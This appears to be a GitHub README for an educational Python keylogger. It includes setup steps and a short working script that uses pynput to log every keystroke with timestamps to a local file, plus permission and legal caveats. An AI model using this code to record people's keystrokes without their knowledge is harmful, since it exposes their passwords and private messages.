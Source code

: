 # Python Keylogger Project

This project demonstrates how to create a simple keylogger in Python. It uses the `pynput` library to listen to keystrokes and log them into a text file. **This project is intended for educational purposes only. Use this code responsibly and only on devices you have permission to monitor.**

## Table of Contents
1. [Project Overview](#project-overview)
2. [Features](#features)
3. [Requirements](#requirements)
4. [Setup Instructions](#setup-instructions)
5. [Code Explanation](#code-explanation)
6. [Running the Keylogger](#running-the-keylogger)
7. [Ethics and Legal Considerations](#ethics-and-legal-considerations)
8. [Troubleshooting](#troubleshooting)
9. [Future Enhancements](#future-enhancements)

---

## Project Overview

A keylogger is a tool that records keystrokes on a computer and saves them to a file. This basic keylogger:
- Listens for keyboard events.
- Logs each keystroke with a timestamp.
- Saves the keystroke log to a text file named `keylog.txt`.

## Features

- Records each key pressed along with a timestamp.
- Stores keystroke data in a text file.
- Simple and concise Python code using the `pynput` library.

## Requirements

- **Python** 3.6 or newer.
- **pynput** library, used to monitor keyboard events.

## Setup Instructions

Follow these steps to set up the keylogger project on your local machine.

### Step 1: Create a Project Folder
Create a folder for this project. For example, you can name it `Keylogger`.

### Step 2: Set Up a Virtual Environment
Navigate to your project folder and set up a virtual environment:
```bash
python -m venv venv
```
Activate the virtual environment:
- On **Windows**:
  ```bash
  .\venv\Scripts\activate
  ```
- On **macOS/Linux**:
  ```bash
  source venv/bin/activate
  ```

### Step 3: Install the `pynput` Library
With your virtual environment active, install `pynput`:
```bash
pip install pynput
```

### Step 4: Add the Keylogger Code
Create a file named `keylogger.py` in your project folder and add the following code:

```python
from pynput.keyboard import Listener
import logging

# Configure logging to store keystrokes in a file
logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        # Log each key pressed
        logging.info(str(key))
    except Exception as e:
        print(f"Error: {e}")

# Start the listener
with Listener(on_press=on_press) as listener:
    listener.join()
```

## Code Explanation

- **Importing Modules**: The `pynput` module listens to keyboard events, while the `logging` module saves these events to a file.
- **Logging Configuration**: We use `logging.basicConfig()` to set up our log file, `keylog.txt`, where each keystroke is logged with a timestamp.
- **on_press Function**: This function is triggered every time a key is pressed. It logs each key press in the specified format.
- **Starting the Listener**: The `Listener` instance listens for keystrokes, and `listener.join()` keeps it running indefinitely.

## Running the Keylogger

To start logging keystrokes, make sure your virtual environment is active, and then run the keylogger script:
```bash
python keylogger.py
```

The keystrokes will be saved in `keylog.txt`. To stop the program, press `Ctrl+C` in the terminal.

## Ethics and Legal Considerations

This code is provided for educational purposes only. **Using keyloggers on devices without permission is illegal** and may violate privacy and cybersecurity laws. Only use this code on devices you own or have explicit permission to monitor. Violating privacy laws could result in serious legal consequences.

## Troubleshooting

### Issue: `PermissionError` in Windows when Activating Virtual Environment
You might see an error about execution policies when activating your virtual environment in PowerShell.

1. Open PowerShell as Administrator.
2. Temporarily set the execution policy to allow scripts:
   ```powershell
   Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
   ```

### Issue: `ModuleNotFoundError` for `pynput`
Make sure your virtual environment is active and `pynput` is installed:
```bash
pip install pynput
```

  
## Conclusion

This project demonstrates a simple way to capture and log keystrokes using Python. Always use this code responsibly, respecting privacy and legal guidelines.

Happy coding! 😊
```

